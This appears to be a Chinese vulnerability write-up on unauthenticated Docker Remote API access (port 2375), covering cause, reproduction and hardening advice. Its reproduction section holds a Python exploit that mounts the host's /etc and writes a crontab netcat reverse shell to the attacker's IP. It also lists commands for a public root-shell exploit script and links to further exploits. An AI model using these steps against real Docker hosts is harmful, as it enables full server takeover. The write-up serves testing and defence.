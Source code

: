 # Docker 未授权访问

> 原文：[https://www.zhihuifly.com/t/topic/2889](https://www.zhihuifly.com/t/topic/2889)

# Docker 未授权访问

## 一、漏洞简介

#### 1\. 基础介绍

http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker host工具，使用标准的Docker API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page not found ，然后他研究了下，发现这是 Docker Remote API，可以执行docker命令，比如访问 http://host:2375/containers/json 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想 swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2\. 测试环境配置

先关闭docker，然后开启：

```
sudo service docker stop
# 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock 
```

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/##client-api

## 二、影响范围

## 三、复现过程

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```
import docker `client = docker.DockerClient(base_url=‘[http://your-ip:2375/](http://your-ip:2375/)’)

data = client.containers.run(‘alpine:latest’, r’’‘sh -c “echo ‘* * * * * /usr/bin/nc your-ip 21 -e /bin/sh’ >> /tmp/etc/crontabs/root” ‘’’, remove=True, volumes={’/etc’: {‘bind’: ‘/tmp/etc’, ‘mode’: ‘rw’}})` 
```

写入crontab文件，成功反弹shell：

![image](img/57c87bf8b1cad02b3b4317b9bb2622e5.png)

#### python脚本

https://github.com/ianxtianxt/docker_api_vul

*   安装类库
    `pip install -r requirements.txt`
*   查看运行的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`
*   查看所有的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`
*   查看所有镜像
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`
*   查看端口映射
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`
*   写计划任务（centos,redhat等,加-u参数用于ubuntu等）
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`
*   写sshkey(自行修改脚本的中公钥)
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`
*   在容器中执行命令
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e "id" -I 容器id`
*   删除容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`
*   修改client api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`
*   查看服务端api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exp
https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py
https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4\. 防护策略

*   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker 服务才能生效。

*   2.修改 Docker 的启动参数：
    定位到 DOCKER_OPTS 中的 tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1
    或将默认端口 2375 改为自定义端口
    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

*   3.注意：该操作需要重启 Docker 服务才能生效。
    修改 Docker 服务运行账号。请以较低权限账号运行 Docker 服务；另外，可以限制攻击者执行高危命令。

*   4.注意：该操作需要重启 Docker 服务才能生效。
    设置防火墙策略。如果正常业务中 API 服务需要被其他服务器来访问，可以配置安全组策略或 iptables 策略，仅允许指定的 IP 来访问 Docker 接口。